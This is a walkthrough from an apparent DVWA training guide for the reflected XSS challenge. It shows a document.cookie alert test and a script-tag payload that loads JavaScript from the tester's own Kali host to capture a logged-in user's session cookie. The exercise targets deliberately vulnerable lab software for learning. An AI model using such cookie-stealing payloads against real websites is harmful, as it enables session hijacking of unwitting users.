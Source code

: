 <b>Challenge URL:</b> /dvwa/vulnerabilities/xss_r/
<br>
<b>Objective:</b> Steal the cookie of a logged-in user.
<br>
<b>Tools needed:</b> A temporary web server
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/README.md">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Note: This challenge is extremely similar to <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">Challenge 10</a>. We'll be using the same web server, exploit, and payload as before, so make sure those are good to go before proceeding.</i>

We see a basic web form with a field we can fill out.

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/screenshots/xssrform.png" width="500">

When we input a name into the field and click the "Submit" button, we see the string "Hello [inputted_name]" returned back to us.

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/screenshots/xssrtest.png" width="500">

Interesting. Can we cause an <code>alert</code> popup to occur using this field?

<code>&#60;script&#62;alert(document.cookie)&#60;/script&#62;</code>

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/screenshots/xssrtestalert.png" width="500">

<i>Note that I actually input <code>document.cookie.split(";")[0]</code> as my payload, in order to hide my session ID. Just a privacy thing for me. You don't have to do that, and it impacts nothing besides what you see in my screenshots.</i>

Perfect! Instead of using <code>alert()</code>, let's use our previous exploit/payload combo from <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">Challenge 10</a>.

<code>&#60;script src="http://[your_Kali_IP]:9999/a.js"&#62;&#60;/script&#62;</code>

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/screenshots/xssrexploit.png" width="500">

If we inspect the form's source code after we input the exploit, we see it's been successfully inserted into the page:

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/screenshots/xssrsource.png" width="500">

And examining the Python web server logs shows the cookie:

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/screenshots/xssrcookie.png" width="500">

Easy enough! Challenge complete.
